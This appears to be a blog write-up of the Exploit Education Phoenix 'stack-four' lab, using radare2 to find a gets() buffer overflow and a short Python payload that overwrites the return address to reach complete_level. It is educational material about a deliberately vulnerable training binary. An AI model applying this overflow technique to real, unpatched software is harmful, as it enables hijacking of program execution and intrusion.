 ```yaml
---
layout: post
title:  "Phoenix x86 Stack Four"
date: "2019-10-13 11:30:00 +0300"
categories: exploit-education phoenix x86
---
```


{% highlight shell %}
$ rabin2 -I /opt/phoenix/i486/stack-four 
arch     x86
baddr    0x8048000
binsz    3608
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (GNU) 7.3.0
crypto   false
endian   little
havecode true
intrp    /opt/phoenix/i486-linux-musl/lib/ld-musl-i386.so.1
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       false
os       linux
pcalign  0
pic      false
relocs   true
relro    no
rpath    /opt/phoenix/i486-linux-musl/lib
sanitiz  false
static   false
stripped false
subsys   linux
va       true
{% endhighlight %}

Same info as the previous levels.

{% highlight shell %}
$ r2 /opt/phoenix/i486/stack-four 
{% endhighlight %}

{% highlight nasm %}
[0x08048350]> aas
Cannot analyze at 0x080485b0
[0x08048350]> afl
0x080482d8    1 17           sym._init
0x080484a0    7 277  -> 112  sym.frame_dummy
0x08048570    5 49           sym.__do_global_ctors_aux
0x080485a1    1 12           sym._fini
0x08048420    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   45 492  -> 538  sym..interp
0x08048350    1 62           entry0
0x08048340    1 6            sym.imp.__libc_start_main
0x0804865c    1 14           loc.__GNU_EH_FRAME_HDR
0x08048688    3 34           sym..eh_frame
0x080486c4    1 9            obj.__EH_FRAME_BEGIN
0x08048390    4 49   -> 40   sym.deregister_tm_clones
0x0804872c    1 4            obj.__FRAME_END
0x08048505    1 49           sym.start_level
0x08048310    1 6            sym.imp.gets
0x08048300    1 6            sym.imp.printf
0x08048536    1 51           main
0x08048320    1 6            sym.imp.puts
0x080484e5    1 32           sym.complete_level
0x08048330    1 6            sym.imp.exit
[0x08048350]> s main
[0x08048536]> pdf
/ (fcn) main 51
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_4h @ ebp-0x4
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048384
|           0x08048536      8d4c2404       lea ecx, [arg_4h]
|           0x0804853a      83e4f0         and esp, 0xfffffff0
|           0x0804853d      ff71fc         push dword [ecx - 4]
|           0x08048540      55             push ebp
|           0x08048541      89e5           mov ebp, esp
|           0x08048543      51             push ecx
|           0x08048544      83ec04         sub esp, 4
|           0x08048547      83ec0c         sub esp, 0xc
|           0x0804854a      6810860408     push str.Welcome_to_phoenix_stack_four__brought_to_you_by_https:__exploit.education ; 0x8048610 ; "Welcome to phoenix/stack-four, brought to you by https://exploit.education"
|           0x0804854f      e8ccfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048554      83c410         add esp, 0x10
|           0x08048557      e8a9ffffff     call sym.start_level
|           0x0804855c      b800000000     mov eax, 0
|           0x08048561      8b4dfc         mov ecx, dword [var_4h]
|           0x08048564      c9             leave
|           0x08048565      8d61fc         lea esp, [ecx - 4]
\           0x08048568      c3             ret
[0x08048536]> s sym.start_level
[0x08048505]> pdf
/ (fcn) sym.start_level 49
|   sym.start_level (int32_t arg_4h);
|           ; var int32_t var_4ch @ ebp-0x4c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ ebp+0x4
|           ; CALL XREF from main @ 0x8048557
|           0x08048505      55             push ebp
|           0x08048506      89e5           mov ebp, esp
|           0x08048508      83ec58         sub esp, 0x58
|           0x0804850b      83ec0c         sub esp, 0xc
|           0x0804850e      8d45b4         lea eax, [var_4ch]
|           0x08048511      50             push eax
|           0x08048512      e8f9fdffff     call sym.imp.gets           ; char *gets(char *s)
|           0x08048517      83c410         add esp, 0x10
|           0x0804851a      8b4504         mov eax, dword [arg_4h]
|           0x0804851d      8945f4         mov dword [var_ch], eax
|           0x08048520      83ec08         sub esp, 8
|           0x08048523      ff75f4         push dword [var_ch]
|           0x08048526      68f3850408     push str.and_will_be_returning_to__p ; 0x80485f3 ; "and will be returning to %p\n"
|           0x0804852b      e8d0fdffff     call sym.imp.printf         ; int printf(const char *format)
|           0x08048530      83c410         add esp, 0x10
|           0x08048533      90             nop
|           0x08048534      c9             leave
\           0x08048535      c3             ret
[0x08048505]> 
{% endhighlight %}

There is a vulnerable `gets` call in the function `sym.start_level`. The objective seems to be to overwrite the return address of that function to return to the function `sym.complete_level` at address `0x080484e5`.

In order to do that, it is essential to calculate the number of bytes that need to be written on the stack to overwrite the return address.

There are a couple of ways:
* use `ragg2` to generate a cyclic pattern, called De Bruijn Sequence, and check the exact offset where the payload overrides the return address.
* calculate it manually.

For the first option:

{% highlight shell %}
$ ragg2 -P 200 -r > pattern
{% endhighlight %}

The argument `-P` prepends a De Bruijn Sequence with a size of 200. The argument `-r` shows raw bytes instead of hexpairs.

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/stack-four -r myProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7f3ed4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x41416241
child stopped with signal 11
[+] SIGNAL 11 errno=0 addr=0x41416241 code=1 ret=0
[0x41416241]> wopO 0x41416241
80
{% endhighlight %}

*Replace the address that follows `wopO` with the value of the `eip` register.*

The result of the last operation is the offset that is needed to reach the return address, but not overwrite it.

With the second option, viewing the local variables is enough. The buffer starts at `ebp-0x4c`, which means that to reach `ebp` a size of 76 bytes is needed. Adding another 4 bytes overwrites the old `ebp` value that is on the stack and adding 4 bytes again means overwriting the return address.

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x58'*80 + b'\xe5\x84\x04\x08')
{% endhighlight %}

{% highlight shell %}
$ ./stack-zero.py > pattern 
$ r2 -d /opt/phoenix/i486/stack-four -r myProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7fb8d4b]> aas
Cannot analyze at 0x080485b0
[0xf7fb8d4b]> db 0x08048512
[0xf7fb8d4b]> dc
Welcome to phoenix/stack-four, brought to you by https://exploit.education
hit breakpoint at: 8048512
[0x08048512]> dr
eax = 0xfff94b5c
ebx = 0xf7fee000
ecx = 0xfff94af0
edx = 0x00000000
esi = 0xfff94c44
edi = 0x00000001
esp = 0xfff94b40
ebp = 0xfff94ba8
eip = 0x08048512
eflags = 0x00000296
oeax = 0xffffffff
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x0000000a  ....oK..........
0xfff94b60  0x08048610 0x080485a1 0x00000000 0x0afaa038  ............8...
0xfff94b70  0xf7fa8a5b 0xf7fee000 0xf7fee1e0 0xf7fab958  [...........X...
0xfff94b80  0xf7fee1e0 0x0000000a 0x00000000 0x00000000  ................
0xfff94b90  0xf7fee000 0xfff94c44 0x00000001 0x08048554  ....DL......T...
0xfff94ba0  0x08048610 0x00000000 0xfff94bb8 0x0804855c  .........K..\...
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x0804855c                                   \...
[0x08048512]> dso
hit breakpoint at: 8048517
[0x08048512]> px/28xw 0xfff94b40
0xfff94b40  0xfff94b5c 0xf7fee1e0 0x00000000 0xf7fa8ab8  \K..............
0xfff94b50  0xf7fee1e0 0xfff94b6f 0x00000001 0x58585858  ....oK......XXXX
0xfff94b60  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b70  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b80  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94b90  0x58585858 0x58585858 0x58585858 0x58585858  XXXXXXXXXXXXXXXX
0xfff94ba0  0x58585858 0x58585858 0x58585858 0x080484e5  XXXXXXXXXXXX....
[0x08048512]> px/xw 0xfff94ba8+0x4
0xfff94bac  0x080484e5                                   ....
[0x08048512]> dc
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!
{% endhighlight %}

## Conclusion
This level introduced a case where an attacker can control the execution of the program by simply writing more bytes than the buffer can hold, so that the return address of the function that contains the vulnerable `gets` call is overwritten.